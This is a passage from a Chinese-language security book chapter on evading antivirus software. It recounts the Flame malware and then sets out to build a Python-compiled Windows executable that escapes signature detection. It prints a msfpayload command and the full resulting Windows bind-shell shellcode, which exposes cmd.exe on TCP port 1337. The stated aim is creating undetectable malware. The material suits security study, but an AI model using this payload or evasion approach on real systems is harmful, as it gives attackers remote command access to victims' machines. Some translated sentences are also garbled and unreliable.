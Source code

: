 # 第七章 躲避杀毒系统

本章内容：

1.  使用 Python Ctypes 工作
2.  使用 Python 躲避杀毒软件
3.  使用 Pyinstaller 构建 Win32 可执行程序
4.  利用 HTTPLib 发送 GET/POST 请求
5.  和在线病毒扫描交互

> 这是一个“小男人”要向你证明的事情，无论你多么强大，无论你多么疯狂，你都必须接受失败！
> 
> —Saulo Ribeiro 巴西柔术 六次世界冠军

# 简介：Flame！

2012 年 5 月 28 日，伊朗的 Maher 中心检测到了一个复杂精妙的计算机网络攻击。这个攻击是此次的复杂，43 种杀毒引擎的 43 种测试也无法辨认出在攻击中使用的恶意代码。发现一些 ASCII 字符串出现在代码中后将它称为 Flame，恶意软件出现的感染的系统是伊朗的国家计算机战略组。编译 Lua 脚本命名为：Beetlejuice, Microbe, Frog, Snack, and Gator，恶意软件偷偷的通过蓝牙记录音频，感染附近的机器，上传截图和数据到远程的控制命令服务器。

估计恶意软件已经使用两年了，Kapersky 实验室很快的解释说 Flame 是“迄今为止发现的最复杂的威胁之一”。它很大并且难以置信的复杂。然而，如何做到防病毒软件无法检测到它至少两年了？他们没有检测到它是因为大多数杀毒软件只要是将基于签名检测作为主要的检测方法。尽管一些厂商开始采取一些更复杂的方法如启发式或者名誉度，但这些依然是性概念。

在最后一章，我们将创建一个杀毒软件来躲避杀毒引擎。所使用的概念主要是 Mark Baggett 实现的，大约一年前它分享了他的方法。然而，绕过杀毒软件的方法在本章的写作时间时任然可用。注意到 Flame，使用了编译的 Lua 脚本。我们将实现 Mark 的方法，编译 Python 脚本为 Windows 可执行程序，为了躲避杀毒软件。

## 躲避杀毒软件

为了创建恶意软件，我们需要恶意代码。Metasploit 框架包含了一个恶意代码库。我们可以使用 Metasploit 生成一些 C 风格的 ShellCode 作为恶意软件的攻击荷载。我们将使用简单的 Windows 绑定 shell，将绑定`cmd.exe` 到 TCP 端口：这允许攻击者远程连接到主机并发出命令和`cmd.exe` 程序相交互。

```py
attacker:∼# msfpayload windows/shell_bind_tcp LPORT=1337 C
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=1337, RHOST=, EXITFUNC=process,
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] =
    "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
    "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
    "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
    "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
    "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
    "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
    "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
    "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
    "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
    "\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
    "\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7"
    "\x31\xdb\x53\x68\x02\x00\x05\x39\x89\xe6\x6a\x10\x56\x57\x68"
    "\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5"
    "\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7\x68\x75"
    "\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
    "\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    "\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e"
    "\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56"
    "\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56"
    "\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
    "\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"; 
```
